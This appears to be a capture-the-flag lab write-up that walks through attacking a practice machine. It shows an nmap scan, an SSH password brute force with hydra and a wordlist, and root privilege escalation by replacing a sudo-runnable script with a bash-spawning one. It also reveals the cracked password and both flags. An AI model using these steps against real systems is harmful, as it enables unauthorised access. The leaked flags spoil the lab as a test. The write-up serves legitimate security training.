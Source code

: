 
---
IP = `10.10.175.71`

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

#### Users

> http://10.10.175.71

```
meliodas
root
www-data
Anonymous
```

### Password BruteForcing

> hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.175.71

```
[22][ssh] host: 10.10.175.71   login: meliodas   password: iloveyou1
```

### Initial Foothold

> ssh meliodas@10.1.175.71


**user.txt**

`6d488cbb3f111d135722c33cb635f4ec`

### Privilage Escalation


> sudo -l

```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py

```

so we can run bak.py but we cant edit it is owned by root

```
meliodas@ubuntu:~$ cat bak.py   
#!/usr/bin/env python  
import os  
import zipfile  
  
def zipdir(path, ziph):  
    for root, dirs, files in os.walk(path):  
        for file in files:  
            ziph.write(os.path.join(root, file))  
  
if __name__ == '__main__':  
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)  
    zipdir('/var/www/html', zipf)  
    zipf.close()

```

we are now going to delete this file and make new file with same name

```
meliodas@ubuntu:~$ rm -f bak.py  
meliodas@ubuntu:~$ cat > bak.py << EOF  
#!/usr/bin/env python  
import pty  
pty.spawn("/bin/bash")  
EOF
```

this command makes a new file bak.py.

```
meliodas@ubuntu:~$ cat bak.py   
#!/usr/bin/env python  
import pty  
pty.spawn("/bin/bash")
```

give permission

`meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py`

now we can read root flag

**root.txt**

`e8c8c6c256c35515d1d344ee0488c617`
